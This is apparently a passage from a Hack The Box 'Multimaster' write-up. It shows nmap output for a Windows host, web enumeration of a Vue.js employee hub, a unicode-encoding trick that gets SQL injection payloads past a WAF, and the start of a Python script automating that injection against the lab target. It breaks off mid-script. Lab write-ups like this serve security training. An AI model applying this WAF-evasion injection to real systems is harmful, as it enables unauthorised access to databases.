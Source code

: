 ```
|_ssl-date: 2020-03-07T19:26:36+00:00; +9m02s from scanner time.
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49673/tcp open   msrpc         Microsoft Windows RPC
49674/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open   msrpc         Microsoft Windows RPC
49676/tcp open   msrpc         Microsoft Windows RPC
49693/tcp open   msrpc         Microsoft Windows RPC
49696/tcp open   msrpc         Microsoft Windows RPC
63393/tcp closed unknown
63421/tcp closed unknown
```

## Web enumeration

The website is an employee hub page written in Vue.js, but most of the links are not working.

![](/assets/images/htb-writeup-multimaster/web1.png)

The login page is also not functional.

![](/assets/images/htb-writeup-multimaster/web2.png)

The only thing that appears to work is the 'Colleague Finder' page:

![](/assets/images/htb-writeup-multimaster/colleagues.png)

The output from the query is JSON and Vue.js takes care of rendering the page.

![](/assets/images/htb-writeup-multimaster/sql1.png)

When I tried different SQL injection payloads like single quotes I got 403 error messages, as well as when I sent too many queries so I knew there was some kind of WAF on the box. However by unicode encoding the characters I was able to bypass the WAF. Here I replaced a single quote by its unicode encoding and got a `null` answer instead of a 403 or empty JSON array.

![](/assets/images/htb-writeup-multimaster/sql2.png)

I wrote a quick script to make SQLi testing faster than using Burp.

```python
#!/usr/bin/python

import readline
import requests

url = "http://10.10.10.179/api/getColleagues"
proxies = { "http": "127.0.0.1:8080" }

def unicode_crap(txt):
	out = ""
	for i in txt:
		out = out + '\\u00%s' % hex(ord(i))[2:]
	return out

while True:
```